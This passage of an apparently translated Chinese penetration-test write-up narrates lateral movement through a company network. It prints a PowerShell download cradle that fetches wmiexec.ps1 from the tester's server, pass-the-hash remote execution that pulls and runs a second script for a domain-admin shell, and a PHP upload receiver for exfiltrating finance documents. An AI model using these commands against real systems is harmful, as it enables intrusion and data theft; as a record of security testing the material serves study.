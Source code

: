 我们用WMIExec代替了SMBExec，从我们的网络服务器下载了SRVWSUS的wmiexec.ps1文件：



```
PS C:tmp&gt; (New-Object Net.WebClient).DownloadFile(‘http://&lt;OUR_PUBLIC_IP&gt;/wmiexec.ps1‘, ‘c:tmpwmiexec.ps1’)
The file contained the following Invoke-WMIExec function at the end:
Invoke-WMIExec 
-Target &lt;SRVFILE1_IP&gt; -Domain SUPERCOMPANY 
-Username Administrator -Hash 446687c38d831f4XXXXXXXXXXXXXXXXX 
-Command 
“powershell `”IEX (New-Object Net.WebClient).DownloadString(`’http://&lt;SRVWSUS_IP&gt;:8001/r2.ps1`’); Invoke-r2`””
```

运行wmiexec.ps1：



```
PS C:tmp&gt; .wmiexec.ps1
Command executed with process ID 4756 on 192.168.178.195
```

在这个故事的末尾，我们非常“神奇”的从SRVFILE1得到了域管理员权限的shell



```
connect to [our-webserver] from [company-ip] 49190
PS C:Windowssystem32&gt; whoami
supercompanyadministrator
```

这个图像应该有助于了解这个流程：

[![](./img/85961/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t016f36a4188526c07b.png)

在我们内网漫游的最后阶段，我们只需要找到几个机密文件就好了。快速查看过硬盘之后，我们发现了一些东西：



```
Directory: F:FinanceReserved
Mode LastWriteTime Length Name
—- ————- —— —-
-a— 9/24/2016 2:20 AM 164468 Supersecret.docx
-a— 5/29/2016 6:41 PM 12288 Balance.xlsx
…
```

这就是我们需要的文件！只需要把他们拿到手，就能够证明漏洞了。

高兴了五分钟之后，我们反过来问自己：该怎样拿到文件呢？首先试了试我们公网服务器的FTP，但运气不佳，对方公司的防火墙屏蔽了服务。所以我们决定通过HTTP上传。

现在该是介绍我们钟爱的PHP语言的时候了，没错，我们大爱PHP~

我们在公网web服务器上用了一个简单的上传脚本



```
&lt;?php
// index.php
$pic = @$_FILES[‘pic’][‘name’];
$pic_loc = @$_FILES[‘pic’][‘tmp_name’];
echo (@move_uploaded_file($pic_loc,$pic)) ? “DONE” : “ERROR”; ?&gt;
```
